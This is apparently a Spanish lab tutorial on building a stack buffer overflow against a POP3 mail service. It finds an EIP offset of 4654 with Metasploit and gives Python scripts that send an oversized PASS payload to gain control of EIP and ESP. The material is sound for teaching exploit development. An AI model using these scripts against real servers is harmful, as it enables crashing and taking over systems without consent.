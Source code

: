 >Después de ejecutar IDebugger nos da una posición de memoria en el **EIP**--> 7A46317A
- Calculamos el offset, que es el total de junk con "AAAA" que rellenamos en el campo **passwd** y justo después le pasaremos nuestra instrucción jiji
```bash
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x7A46317A
[*] Exact match at offset 4654
```

- Simplemente nos aseguramos con este script de que en el **EIP** salen 4 "BBBB"
```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "192.168.1.145"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
payload = before_eip + eip


def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

- Después de sobrescribir el **EIP**, intentamos escribir en la pila **(ESP)** que es un registro de programa que escribe en ella
```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "192.168.1.145"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
after_eip = b"C"*200

payload = before_eip + eip + after_eip

```